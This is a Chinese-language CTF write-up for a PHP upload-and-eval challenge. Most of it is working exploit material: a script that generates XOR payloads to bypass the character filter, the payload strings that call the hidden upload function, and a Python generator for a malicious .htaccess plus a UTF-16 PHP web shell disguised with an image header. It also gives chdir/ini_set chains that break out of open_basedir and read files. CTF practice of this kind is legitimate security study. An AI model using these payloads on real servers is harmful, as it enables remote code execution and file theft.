




open_basedir+异或+.htaccess
1 | function get_the_flag(){ |
2 | // webadmin will remove your upload file every 20 min!!!! |
3 | $userdir = "upload/tmp_".md5($_SERVER['REMOTE_ADDR']); |
4 | if(!file_exists($userdir)){ |
5 | mkdir($userdir); |
6 | } |
7 | if(!empty($_FILES["file"])){ |
8 | $tmp_name = $_FILES["file"]["tmp_name"]; |
9 | $name = $_FILES["file"]["name"]; |
10 | $extension = substr($name, strrpos($name,".")+1); |
11 | if(preg_match("/ph/i",$extension)) die("^_^"); |
12 | if(mb_strpos(file_get_contents($tmp_name), '<?')!==False) die("^_^"); |
13 | if(!exif_imagetype($tmp_name)) die("^_^"); |
14 | $path= $userdir."/".$name; |
15 | @move_uploaded_file($tmp_name, $path); |
16 | print_r($path); |
17 | } |
18 | } |
19 | $hhh = @$_GET['_']; |
20 | if (!$hhh){ |
21 | highlight_file(__FILE__); |
22 | } |
23 | if(strlen($hhh)>18){ |
24 | die('One inch long, one inch strong!'); |
25 | } |
26 | if ( preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', $hhh) ) |
27 | die('Try something else!'); |
28 | $character_type = count_chars($hhh, 3); |
29 | if(strlen($character_type)>12) die("Almost there!"); |
30 | eval($hhh); |
分为两部分，思路是调用get_the_flag()函数
第一部分函数绕过
1 | $hhh = @$_GET['_']; |
2 | |
3 | if (!$hhh){ |
4 | highlight_file(__FILE__); |
5 | } |
6 | |
7 | if(strlen($hhh)>18){ //限制18位 |
8 | die('One inch long, one inch strong!'); |
9 | } |
10 | |
11 | if ( preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', $hhh) ) |
12 | die('Try something else!');//正则只能16进制 |
13 | |
14 | $character_type = count_chars($hhh, 3); |
15 | if(strlen($character_type)>12) die("Almost there!"); |
16 | |
17 | eval($hhh); |
通过正则匹配脚本发现能用的不多
利用不可见字符异或来构造：
1 | |
2 | $payload = ''; |
3 | |
4 | for($i=0;$i<strlen($argv[1]);$i++) |
5 | { |
6 | for($j=0;$j<255;$j++) |
7 | { |
8 | $k = chr($j)^chr(255); //dechex(255) = ff |
9 | if($k == $argv[1][$i]) |
10 | $payload .= '%'.dechex($j); |
11 | } |
12 | } |
13 | echo $payload; |
payload：
1 | ${ffffffff^a0b8baab}{ff}();&ff=phpinfo |
发现phpinfo()能构造成功
1 | ${ffffffff^a0b8baab}{ff}();&ff=get_the_flag |
就此绕过第一段
第二部分函数绕过
一个过滤正则基本把东西都匹配了，只是这次刚好就是apache+php环境了,但是还有一个.htaccess
1 | exif_imagetype() 的绕过方式 |
2 | 可以用"\x00\x00\x8a\x39\x8a\x39" |
3 | 也可以用"#define width 1337" |
4 | "#define height 1337" |
这里注意到php版本为7.2所以，不能用/<script>标签绕过<?的过滤了，可以通过编码进行绕过，如原来使用utf8编码，如果shell中是用utf16编码则可以Bypass

自动生成.htaccess,以及🐎的脚本
1 | SIZE_HEADER = b"\n\n#define width 1337\n#define height 1337\n\n" |
2 | |
3 | def generate_php_file(filename, script): |
4 | phpfile = open(filename, 'wb') |
5 | |
6 | phpfile.write(script.encode('utf-16be')) |
7 | phpfile.write(SIZE_HEADER) |
8 | |
9 | phpfile.close() |
10 | def generate_htacess(): |
11 | htaccess = open('.htaccess', 'wb') |
12 | |
13 | htaccess.write(SIZE_HEADER) |
14 | htaccess.write(b'AddType application/x-httpd-php .lethe\n')//将.lethe后缀的文件作为php解析 |
15 | htaccess.write(b'php_value zend.multibyte 1\n') |
16 | htaccess.write(b'php_value zend.detect_unicode 1\n') |
17 | htaccess.write(b'php_value display_errors 1\n') |
18 | |
19 | htaccess.close() |
20 | |
21 | generate_htacess() |
22 | generate_php_file("shell.lethe", "<?php eval($_GET['cmd']); die(); ?>") |
然后使用postman上传.htaccess

虽然上传了马，但是要绕过open_basedir(限制访问的)，具体看笔记
1 | open_basedir是php.ini中的一个配置选项 |
2 | 它可将用户访问文件的活动范围限制在指定的区域， |
3 | 假设open_basedir=wwwrootweb1/:， |
4 | 那么通过web1访问服务器的用户就无法获取服务器上除了wwwrootweb1/和这两个目录以外的文件。 |
5 | 注意用open_basedir指定的限制实际上是前缀,而不是目录名。 |
6 | 举例来说: 若"open_basedir = /dir/user", 那么目录 "/dir/user" 和 "/dir/user1"都是可以访问的。 |
7 | 所以如果要将访问限制在仅为指定的目录，请用斜线结束路径名。 |
payload:
1 | ?cmd=chdir(%27img%27);ini_set(%27open_basedir%27,%27..%27);chdir(%27..%27);chdir(%27..%27);chdir(%27..%27);chdir(%27..%27);ini_set(%27open_basedir%27,%27/%27);print_r(scandir(%27/%27)); |

1 | ?cmd=chdir('/tmp');mkdir('lethe');chdir('lethe');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');var_dump(ini_get('open_basedir'));var_dump(file_get_contents(THis_Is_tHe_F14g)); |
